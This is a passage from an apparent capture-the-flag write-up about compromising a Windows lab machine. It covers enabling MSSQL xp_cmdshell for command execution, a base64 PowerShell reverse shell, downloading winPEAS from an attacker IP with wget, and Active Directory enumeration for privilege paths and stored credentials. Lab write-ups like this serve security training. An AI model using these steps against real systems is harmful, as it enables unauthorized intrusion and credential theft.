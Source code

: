 -   I test a command &amp; it works as expected. We have RCE of the underlying host.
    ```sql
    EXEC xp_cmdshell 'dir C:\';

    -- We run commands like
    EXEC xp_cmdshell '[Command]';
    ```

    -   {{< figure src="/ox-hugo/2025-01-13-134407_.png" >}}
    -   +Important Note+: I found that `xp_cmdshell` would default to off again after a period of time so I had to re-enable it to execute commands.



-   I go to [revshells](https://www.revshells.com/) and use the base64 encoded powershell example.
    -   I start my listener on my local host and then enter the powershell base64 encoded reverse shell as a command via `xp_cmdshell`:
        ```sql
        EXEC xp_cmdshell 'powershell -e [base64ReverseShell]'
        ```
    -   {{< figure src="/ox-hugo/2025-01-13-135414_.png" >}}
    -   It connects.


### Enumerating As `sql_svc`: {#enumerating-as-sql-svc}

-   I check for the user flag but it is not present, so this makes me think that our target user is the user `ryan` who is also listed on this machine. Looking at their profile in Bloodhound, we can see they are part of the "Management Department" group which looks like it could be a good target.
    -   {{< figure src="/ox-hugo/2025-01-13-171540_.png" >}}
    -   More importantly we can also see ryan has `WriteOwner` privileges over the `CA_SVC` account, which means we effectively have full control over that account if we can get control of him.
        -   {{< figure src="/ox-hugo/2025-01-13-183109_.png" >}}



-   I download winPEAs onto the host.
    ```powershell
    wget http://10.10.14.38:9000/winPEASany.exe -o peas.exe
    ```

    -   I run it but nothing immediately jumps out.

-   I check for contents of users descriptions &amp; info fields, incase there are any stored credentials:
    ```powershell
    Get-AdUser -Properties * -LDAPFilter '(&(objectCategory=user)(description=*))' | select samaccountname,description
    ```

    -   +Note+: This returns only users who's description field is not blank
        ```powershell
          Get-AdUser -Properties * -LDAPFilter '(&(objectCategory=user)(info=*))' | select samaccountname,info
        ```
    -   {{< figure src="/ox-hugo/2025-01-13-163750_.png" >}}
